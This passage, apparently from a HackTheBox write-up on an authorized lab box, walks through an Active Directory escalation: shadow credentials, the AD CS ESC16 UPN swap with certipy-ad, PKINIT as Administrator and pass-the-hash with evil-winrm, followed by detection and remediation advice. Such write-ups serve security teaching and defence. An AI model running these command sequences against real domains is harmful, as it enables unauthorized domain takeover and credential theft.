

Enrollment rights are an AD CS permission, invisible to standard BloodHound edges — which is why `ca_svc` looks "boring" in the graph but is actually the key. `p.agila` can *see* the vuln, but `ca_svc` can *enroll* to weaponize it.

### 6.3 Shadow Credentials on ca_svc

Same technique as winrm_svc, this time targeting `ca_svc` (with the clock already exactly synced):

```bash
certipy-ad shadow auto -u p.agila@fluffy.htb -p '<password>' -account ca_svc -dc-ip $DC -dc-host DC01.fluffy.htb -ns $DC
```



### 6.4 The ESC16 UPN-swap

The attack works because the issued cert will carry a **UPN** we control but **no SID** to contradict it:

1. Set `ca_svc`'s UPN to `administrator`.
2. Enroll (as `ca_svc`) in the default `User` template → the cert says "administrator" with no SID.
3. Revert the UPN.
4. Authenticate with the cert → PKINIT maps it to the real Administrator.

**Why the SID has to be absent:** the SID extension, when present, is stamped by the CA from the *authenticated requester* and signed — you can't forge it. Knowing Administrator's SID doesn't help, because you can't inject it. The **UPN**, on the other hand, is an attribute you can rewrite on your own account. With the SID extension disabled (ESC16), AD has nothing authoritative to match on and falls back to the UPN — which we forged.

Set the UPN to `administrator`:

```bash
certipy-ad account update -u ca_svc@fluffy.htb -hashes <ca_svc_hash> -dc-ip $DC -user ca_svc -upn administrator
```



### 6.5 Requesting the certificate (RPC filtered → use the SMB named pipe)

The request initially failed: **port 135 (RPC endpoint mapper) and the dynamic high RPC ports are firewalled** on this box (recall nmap's 989 filtered ports). Web enrollment is also disabled.

The fix: authenticate with the **Kerberos ticket** (`-k`) rather than the NT hash. Kerberos-based enrollment goes over the **SMB named pipe (`\pipe\cert`, port 445)** — which is open — instead of RPC/TCP.

```bash
export KRB5CCNAME=ca_svc.ccache
certipy-ad req -k -no-pass -dc-host DC01.fluffy.htb -ca fluffy-DC01-CA -template User
```



The cert is issued with **UPN `administrator`** and, as expected under ESC16, **"Certificate has no object SID."**

### 6.6 Revert the UPN, then authenticate as Administrator

The UPN swap is only needed during enrollment. For login it must be reverted, so that the UPN `administrator` resolves to the **real** Administrator account (by sAMAccountName) rather than to `ca_svc`.

```bash
# revert
certipy-ad account update -u ca_svc@fluffy.htb -hashes <ca_svc_hash> -dc-ip $DC -user ca_svc -upn 'ca_svc@fluffy.htb'
# authenticate with the certificate
certipy-ad auth -pfx administrator.pfx -dc-ip $DC -domain fluffy.htb
```



> **Gotcha:** if you run `auth` *before* reverting, you get `Name mismatch between certificate and user 'administrator'` — because while `ca_svc` still owns the UPN `administrator`, the KDC maps the cert to `ca_svc`, not the real admin. Revert first.

PKINIT succeeds as Administrator and we recover the **Administrator NT hash**.

### 6.7 root.txt

Pass-the-hash as Administrator over WinRM:

```bash
evil-winrm -i $DC -u administrator -H <administrator_NT_hash>
```



**Box owned.**

---

## 7. Lessons, detection & remediation

**CVE-2025-24071 (NTLM coercion)**
- *Detection:* hunt for `.library-ms` files containing `\\` UNC URLs in shares and archives; alert on outbound SMB (445) to hosts that aren't file servers.
- *Remediation:* apply the March 2025 cumulative update; restrict write access to shares; enable SMB signing and consider blocking outbound SMB at the perimeter.

**ACL abuse (GenericAll / GenericWrite)**
- *Detection:* monitor group-membership changes and writes to `msDS-KeyCredentialLink` (Directory Service / Event ID 5136).
- *Remediation:* tighten delegated permissions; service-account management groups should be tightly scoped and monitored.

**Shadow Credentials**
- *Detection:* alert on `msDS-KeyCredentialLink` modifications on accounts that don't use Windows Hello for Business.
- *Remediation:* restrict who can write that attribute; enable the KDC's strong certificate mapping.

**AD CS ESC16 (SID extension disabled CA-wide)**
- *Detection:* `certipy find -vulnerable`; audit the CA policy for the disabled `szOID_NTDS_CA_SECURITY_EXT` (1.3.6.1.4.1.311.25.2) extension; watch for certificate requests where the subject UPN was recently changed.
- *Remediation:* re-enable the SID security extension on the CA, enforce strong certificate mapping (KB5014754), and restrict enrollment rights.

**Operational takeaways**
- On AD boxes with clock skew, prefix Kerberos commands with `faketime`, or do an exact `ntpdate` sync — PKINIT needs *precise* time, not approximate.
- When RPC (135 + dynamic ports) is filtered, switch to **Kerberos auth** so AD CS enrollment travels over the SMB named pipe (445).
- Keep `/etc/hosts` current after every box reset.

---

*Write-up for educational purposes on an authorized HackTheBox target. Flags, hashes, tickets, and the cracked password are redacted.*
